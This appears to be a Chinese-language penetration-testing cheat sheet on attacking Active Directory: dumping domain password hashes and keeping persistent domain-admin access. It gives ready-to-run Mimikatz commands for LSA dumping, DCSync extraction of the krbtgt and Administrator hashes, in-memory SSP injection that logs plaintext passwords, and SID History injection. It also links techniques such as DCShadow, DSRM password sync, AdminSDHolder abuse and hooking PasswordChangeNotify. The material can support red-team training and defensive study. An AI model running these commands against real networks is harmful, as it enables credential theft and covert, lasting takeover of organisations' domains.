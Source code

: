 #### 获取AD哈希 
* 使用VSS卷影副本 
* Ntdsutil中获取NTDS.DIT​​文件 
* PowerShell中提取NTDS.DIT -->[Invoke-NinaCopy ](https://github.com/clymb3r/PowerShell/tree/master/Invoke-NinjaCopy)
* 使用Mimikatz提取 

```
mimikatz lsadump::lsa /inject exit 
``` 
* 使用PowerShell Mimikatz
* 使用Mimikatz的DCSync 远程转储Active Directory凭证
提取 KRBTGT用户帐户的密码数据：

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：krbtgt"exit
```
管理员用户帐户提取密码数据：
```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：Administrator" exit

```
* NTDS.dit中提取哈希 
使用esedbexport恢复以后使用ntdsxtract提取 

#### AD持久化 
##### 活动目录持久性技巧 
https://adsecurity.org/?p=1929 
DS恢复模式密码维护 
DSRM密码同步 
>Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。KB961320:https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,可参考：[巧用DSRM密码同步将域控权限持久化](http://drops.xmd5.com/static/drops/tips-9297.html)

[DCshadow ](https://www.dcshadow.com/)

##### Security Support Provider 
简单的理解为SSP就是一个DLL，用来实现身份认证
```
privilege::debug
misc::memssp
```
这样就不需要重启`c:/windows/system32`可看到新生成的文件kiwissp.log
##### [SID History](https://adsecurity.org/?p=1772) 
SID历史记录允许另一个帐户的访问被有效地克隆到另一个帐户
```
mimikatz "privilege::debug" "misc::addsid bobafett ADSAdministrator"
```
##### [AdminSDHolder＆SDProp ](https://adsecurity.org/?p=1906)
利用AdminSDHolder＆SDProp（重新）获取域管理权限 
##### 组策略 
https://adsecurity.org/?p=2716 
[策略对象在持久化及横向渗透中的应用](https://www.anquanke.com/post/id/86531) 
##### Hook PasswordChangeNotify 
http://wooyun.jozxing.cc/static/drops/tips-13079.html 
#### TIPS 
[《域渗透——Dump Clear-Text Password after KB2871997 installed》](https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed) 
[《域渗透——Hook PasswordChangeNotify》](http://www.vuln.cn/6812) 
>可通过Hook PasswordChangeNotify实时记录域控管理员的新密码 
